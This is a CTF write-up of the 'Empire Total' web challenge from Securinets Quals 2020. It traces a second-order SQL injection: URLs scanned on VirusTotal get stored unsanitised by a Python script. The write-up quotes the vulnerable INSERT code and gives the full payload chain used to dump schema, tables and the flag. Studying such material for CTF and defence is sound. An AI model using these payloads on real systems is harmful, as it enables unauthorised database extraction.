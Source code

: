 ```yaml
---
title: Empire Total - Securinets Quals20
summary: Writeup for the web exploitation task Empire Total in Securinets Quals 2020.
date: "2020-03-21T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: false  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
author: kahla
# Optional header image (relative to `static/img/` folder).
header:
  caption: "Empire Total"
  image: "quals.jpg"
---
```


# **Empire Total (1000pts) (7 Solves)** #

![TASK](https://imgur.com/rGcoI7o.png)

This task was really so creative and i had so fun solving it , but i can't deny that it was painful :( after reading the description we can say that we aim to dump the database of the website (maybe SQL injection who knows) and fortunately we have the source code so let's download it and begin our trip xD

After Visiting the website we find a tool based on Virus Total API , understanding the functionality of the website is really necessary for solving the task, we will cover it in details later, but as a first thought we give an ip address to the website and it will shows Virus Total stats about it

![TASK](https://imgur.com/k7ScCjX.png)

![TASK](https://imgur.com/bjRXPJT.png)

After cloning the project here is its structure
> git clone https://github.com/mohamedaymenkarmous/virustotal-api-html

![TASK](https://imgur.com/alxzV41.png)

let's take a look at index.php , since the code is really too long i will only put the important parts, as we can see after some configurations and Recaptcha setting, all the SQL queries are prepared statements so there is no way to perform SQL injection but we can notice the execution of the 
**shell_exec** function :D Interesting hmmm 

![TASK](https://imgur.com/A1kiMAa.png)

**shell_exec** is executing some python script with a scanned ip argument ,maybe manipulating it will give us something useful 

```php
$command = "../VirusTotal.py '$scanned_ip'";
$output = shell_exec($command);
```
But unfortunately there's too much restriction on our input :( it's impossible to bypass the filter_var here and the JS restrictions (if you can bpass it just tell me xD )

```php
 if(isset($_POST) && !empty($_POST)){
  $scanned_ip=isset($_POST['ip']) && !empty($_POST['ip'])  && !is_array($_POST['ip']) ? $_POST['ip'] : "";
  if(!$scanned_ip){header("Location: /?invalid_ip");exit();}
  if (filter_var($scanned_ip, FILTER_VALIDATE_IP)) {
  } else {header("Location: /?invalid_ip");exit();}
```
Let's proceed , it seems that the index.php is pretty safe ,let's take a look at the VirusTotal.py script 

![TASK](https://imgur.com/ytcYYQQ.png)

OMG :'( 499 lines , that was so discouraging @Emperors :( but we needed that flag to have the 10th place xD anyway after scrolling around and reading the code , we can somehow understand the behaviour of the website,
when we enter the ip address it asks the Virus Total API for the results and then there's the persistence functionality that saves the results in the database and then when we enter the same ip address again it will loads
the results from the database .

So if we can control the results maybe we will have the opportunity to perform an SQL injection ? I got stuck in this part for a long time and after the help of the admin ( Thank you @Emperors <3 ) i found something interesting :D

before we proceed here's a vulnerable function to SQL injection that saves the results of urls section in the database (line 417 in VirusTotal.py)

```python
  def persistURLs(self,selected_ips,ip_report_filtered):
    attr="detected_urls"
    table_name="vt_scanned_urls_table"
    newAttr=self.AttrSubstitution[attr] if attr in self.AttrSubstitution else attr
    selected_urls=self.findPersistedIP(selected_ips[0]['id'],table_name)
    selected_urls_filtered=[]
    for selected_url in selected_urls:
      selected_urls_filtered.append(selected_url['url'])
    if newAttr in ip_report_filtered:
     for url in ip_report_filtered[newAttr]:
      print(url['URL'])
      if url['URL'] not in selected_urls_filtered:
        try:
          self.CursorRW.execute("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          self.DBRW.commit()
          self.resetSQL()
        except Exception as e:
          print("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          print("EXCEPTION: ",e)
          self.resetSQL()
```
## Exploitation ##

So the idea is that if we go to VirusTotal website (https://www.virustotal.com/) and scan a url ,and then go back to our challenge website and scan the url's ip
we will find that the url we scanned in VirusTotal website will appear , it's pretty confusing i know so let's have an example

1. We go to Virus Total website and scan for any url for example :( in my case i launched a web server on my VPS and used it here )

> http://100.26.206.184/?u=Just testing for the writeup :p

![TASK](https://imgur.com/mGOQ1tQ.png)

2. Now we go back to the challenge website and scan the ip address

![TASK](https://i.imgur.com/N7ymSRT.jpg)

Yeeees ! it's appearing in the results so we now have the control over these values in the urls section of the results.

Now here is our scenario , if we look to the vulnerable function **persistURLs** in VirusTotal.py we can notice the injection in this query (line 430)

> INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')

We have control over the **url['URL']** parameter (the url we scan in VirusTotal Website) so it's now an SQL injection in INSERT INTO values, but we have some constraints :

1. The url encoding **%20** that will be interpreted with the SQL query so we have to find another way in our payload instead of white spaces which is a well known bypass:  **/\*\*/**
2. The second thing faced me when i was solving the challenge , we can't use **-- -** to equilibrate the SQL query so we will have to find a solution to equilibrate it

In order to test the injection locally i have created this small script that connects to my local DB and executes the same query, you can find it **[HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/Securinets%20Prequals%202k20/Empire%20Total/test.py)** 

Finally I opted to this solution, here is the URL we will scan :
> http://100.26.206.184/?u=',(select/**/1),(select/**/2)),('102','a

The complete SQL query that will be executed is  :
> INSERT INTO detected_urls (ip_id,url,detections,scanned_time) VALUES ('2','100.26.206.184/?u=',(select 1),(select 2)),('102','a','15','yes')

Let's try it now , we first scan it in VirusTotal :

![TASK](https://imgur.com/3L7lmrs.png)

And now let's scan the IP in the challenge website  :

![TASK](https://imgur.com/f2CRd7H.png)

It's fetched successfully, let's scan the ip another time now to check if our injection succeeded or not, we must see 1,2 in the output :

![TASK](https://i.imgur.com/U3SEcaV.jpg)

Bingo ! our injection worked , we only have to dump the entire Database now and repeat the same procedure:

1. Dump DB names :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,schema_name,0x7c)/**/fRoM/**/information_schema.schemata),(select/**/2)),('102','a

![TASK](https://imgur.com/AJvdMXB.png)

DBName : MySecretDatabase 

2. Dump Tables and Columns :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,table_name,0x7c)/**/fRoM/**/information_schema.tables),(select/**/2)),('102','a

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,column_name,0x7c)/**/fRoM/**/information_schema.columns),(select/**/2)),('103','a

![TASK](https://imgur.com/raYuUmI.png)

**Table Name** : SecretTable & **Column Name** : secret_value

3. And finally let's have our beloved flag :

> http://100.26.206.184/?u=',(select/**/group_concat(0x7c,secret_value,0x7c)/**/fRoM/**/MySecretDatabase.SecretTable),(select/**/2)),('109','a

![TASK](https://imgur.com/FanWbUZ.png)

Yees We did it , **FLAG** : Securinets{EmpireTotal_Pwn3D_fr0m_Th3_0th3r_S1de}

I have really liked the idea of the challenge, it's really creative , i want to thank Securinets technical team for these fun tasks and awesome CTF and of course the author @TheEmperors.

I hope you liked the writeup if you have any questions don't hesitate to contact me **Twitter** : @BelkahlaAhmed1 , finally i can sleep in peace after these 24 hours xd

